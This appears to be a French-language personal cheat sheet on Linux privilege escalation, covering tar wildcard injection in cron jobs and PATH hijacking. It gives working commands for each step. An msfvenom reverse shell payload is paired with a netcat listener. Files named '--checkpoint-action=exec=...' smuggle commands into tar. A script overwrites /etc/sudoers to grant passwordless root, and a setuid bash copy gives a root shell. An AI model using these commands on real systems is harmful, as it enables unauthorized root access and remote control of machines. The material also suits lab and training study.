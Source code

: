 
### TAR COMMAND 
Si dans un cron job une commande comme tar est run avec *   
alors elle incluera tous els fichiers selectionnés lors de l'exec.  
Si les noms des fichiers sont des options de commande correct alors   
on peut executer d'autres fichiers.  
donc :   
```bash
cat /usr/local/bin/compress.sh
```
***quand on cat le fichier on lit blabla tar * :***

***Note that backup script are often scheduled in crontab***

REVERSE root SHELL
on crée un payload qu'on envoie avec un serv python ou en copier coller (en php par ex):
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.14.34 LPORT=444 -f elf -o shell.elf
chmod +x /tmp/shell.elf
```
on cree des fichiers qui seront executés comme des <flag> de la commande tar
```bash
touch /tmp/--checkpoint=1
touch /tmp/--checkpoint-action=exec=shell.elf
```
on setup un netcat et on attend (car c'était un cronjob)
```
nc -nvlp 4444
```
##### other example
```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```
#### ROOTBASH
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
```

Wait 1 minute for the Bash script to execute.
```bash
In command prompt type: /tmp/bash -p
```

### EXPLOITING PATH VARIABLE
On regarde le nom des fichiers qui sont executés  
On se déplace dans /tmp et on crée un fichier du même nom avec le script dedans
```bash
echo $PATH
```
On commence par cree le faux script
```bash
cd /tmp
echo "[whatever command we want to run]" > [name of the executable we're imitating] 
```
